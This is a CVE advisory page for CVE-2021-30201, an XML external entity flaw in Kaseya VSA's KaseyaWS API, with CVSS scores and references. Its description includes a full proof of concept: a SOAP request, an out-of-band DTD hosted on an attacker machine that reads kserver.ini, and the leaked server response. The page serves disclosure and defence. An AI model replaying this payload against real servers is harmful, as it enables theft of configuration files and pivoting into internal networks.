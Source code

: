 
# [CVE-2021-30201](https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/)

## Description

- `The API /vsaWS/KaseyaWS.asmx can be used to submit XML to the system. When this XML is processed (external) entities are insecurely processed and fetched by the system and returned to the attacker. Detailed description Given the following request: ``` POST /vsaWS/KaseyaWS.asmx HTTP/1.1 Content-Type: text/xml;charset=UTF-8 Host: 192.168.1.194:18081 Content-Length: 406 <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:kas="KaseyaWS"> <soapenv:Header/> <soapenv:Body> <kas:PrimitiveResetPassword> <!--type: string--> <kas:XmlRequest><![CDATA[<!DOCTYPE data SYSTEM "http://192.168.1.170:8080/oob.dtd"><data>&send;</data>]]> </kas:XmlRequest> </kas:PrimitiveResetPassword> </soapenv:Body> </soapenv:Envelope> ``` And the following XML file hosted at http://192.168.1.170/oob.dtd: ``` <!ENTITY % file SYSTEM "file://c:\\kaseya\\kserver\\kserver.ini"> <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; %error; ``` The server will fetch this XML file and process it, it will read the file c:\\kaseya\\kserver\\kserver.ini and returns the content in the server response like below. Response: ``` HTTP/1.1 500 Internal Server Error Cache-Control: private Content-Type: text/xml; charset=utf-8 Date: Fri, 02 Apr 2021 10:07:38 GMT Strict-Transport-Security: max-age=63072000; includeSubDomains Connection: close Content-Length: 2677 <?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema"><soap:Body><soap:Fault><faultcode>soap:Server</faultcode><faultstring>Server was unable to process request. ---&gt; There is an error in XML document (24, -1000).\r\n\r\nSystem.Xml.XmlException: Fragment identifier '######################################################################## # This is the configuration file for the KServer. # Place it in the same directory as the KServer executable # A blank line or new valid section header [] terminates each section. # Comment lines start with ; or # ######################################################################## <snip> ``` Security issues discovered --- * The API insecurely resolves external XML entities * The API has an overly verbose error response Impact --- Using this vulnerability an attacker can read any file on the server the webserver process can read. Additionally, it can be used to perform HTTP(s) requests into the local network and thus use the Kaseya system to pivot into the local network.`

## Cvss Data

- **Access Vector**:
  - NETWORK
- **Base Score**:
  - 5.0

## Scores

- **Exploitability Score**:
  - 10.0
- **Impact Score**:
  - 2.9
- **Base Severity**:
  - MEDIUM

## Other Information

- **Publish Date**:
  - 2021-07-09 14:15:07
- **Vulnerability Status**:
  - Analyzed

## References

- **cve@mitre.org**: https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/
- **cve@mitre.org**: https://csirt.divd.nl/CVE-2021-30201
- **cve@mitre.org**: https://csirt.divd.nl/DIVD-2021-00011
- **cve@mitre.org**: https://helpdesk.kaseya.com/hc/en-gb/articles/360019966738-9-5-6-Feature-Release-8-May-2021
